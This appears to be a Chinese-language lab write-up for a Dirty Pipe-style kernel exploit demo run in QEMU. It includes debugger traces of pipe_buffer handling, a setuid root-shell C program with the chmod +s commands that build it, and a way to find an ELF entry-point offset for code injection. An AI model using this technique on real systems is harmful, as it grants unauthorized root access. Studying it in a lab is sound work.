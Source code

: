 ![成功结果](assets/success.png)
注入到ELF入口 的_start 而不需要覆盖整个ELF文件（我这里由于qemu中的busybox 做了点适配 用busybox去起sh


# 几个问题的解决
- pipe的续写机制?
第一次读写pipe 然后splice是接在第二个pipe_buffer

- 怎么确定喷到了哪个pipe_buffer ?
pipe往head上写 从tail开始读
```
   285                 if (!pipe_empty(head, tail)) {
   286                         struct pipe_buffer *buf = &pipe->bufs[tail & mask];
   287                         size_t chars = buf->len;
   288                         size_t written;
   289                         int error;
   290 
 ► 291                         if (chars > total_len) {
   292                                 if (buf->flags & PIPE_BUF_FLAG_WHOLE) {
   293                                         if (ret == 0)
   294                                                 ret = -ENOBUFS;
   295                                         break;
   296                                 }
   297                                 chars = total_len;
   298                         }
   299 
   300                         error = pipe_buf_confirm(pipe, buf);
   301                         if (error) {
─────────────────────────────────────────[ EXPRESSIONS ]─────────────────────────────────────────
1: *(struct pipe_buffer *) 0xffff88800509e800 = {
  page = 0xffffea00003ee880,
  offset = 0,
  len = 16,
  ops = 0xffffffff822445c0 <anon_pipe_buf_ops>,
  flags = 16,
  private = 0
}
─────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> p chars      写入的总size
$6 = 16
pwndbg> p total_len  需要读出的size
$7 = 1
```

然后会调整offset
```
   307                         written = copy_page_to_iter(buf->page, buf->offset, chars, to);
 ► 308                         if (unlikely(written < chars)) {
   309                                 if (!ret)
   310                                         ret = -EFAULT;
   311                                 break;
   312                         }
   313                         ret += chars;
   314                         buf->offset += chars;
   315                         buf->len -= chars;
```
所以可以看到 offset为页内偏移 [offset; offset + len]为页内数据的区间
可以通过读写操作来 


- 可不可以改pipe_buffer的offset?
用read(pipe_fd...) 去改

# setuid 编译

`setuid` demo如下 只要注入某个setuid程序为setuid+system 就能完成dp的利用
```shell
$ gcc -o shell shell.c
$ sudo chown root:root shell
$ sudo chmod u+x shell      
$ sudo chmod +s shell 
```

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char const *argv[])
{
    setuid(0);
    system("/bin/sh");

    return 0;
}
```

# setuid 程序偏移

busybox里面没有setuid程序 可以自己随便编译一个丢进去 方便我们注入
可以通过readelf找到其中的偏移
这里虚拟地址起始地址是0x400000 偏移是0x1038 在splice的时候给入偏移0x37即可
```shell
$ readelf --headers fs/bin/test
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0x401038
```


# extra

## 编译报错

```
$ make 
make -C /home/squ/src-code-reading/linux-5.19/ M=/home/squ/prac/dirty-pipe-primitive-demo/vuln_module modules && \
// cp vuln.ko .. && \
// rm -rf .*.cmd *.symvers *.order *.ko *.mod* *.o
make[1]: Entering directory '/home/squ/src-code-reading/linux-5.19'
WARNING: Symbol version dump "Module.symvers" is missing.
         Modules may not have dependencies or modversions.
         You may get many unresolved symbol warnings.
make[3]: *** No rule to make target 'scripts/module.lds', needed by '/home/squ/prac/dirty-pipe-primitive-demo/vuln_module/vuln.ko'.  Stop.
make[2]: *** [scripts/Makefile.modpost:134: __modpost] Error 2
make[1]: *** [Makefile:1757: modules] Error 2
make[1]: Leaving directory '/home/squ/src-code-reading/linux-5.19'
make: *** [Makefile:12: default] Error 2
```

解决思路 到内核树下`make modules_prepare`

`Module.symvers`和`vmlinux.symvers`貌似是一个东西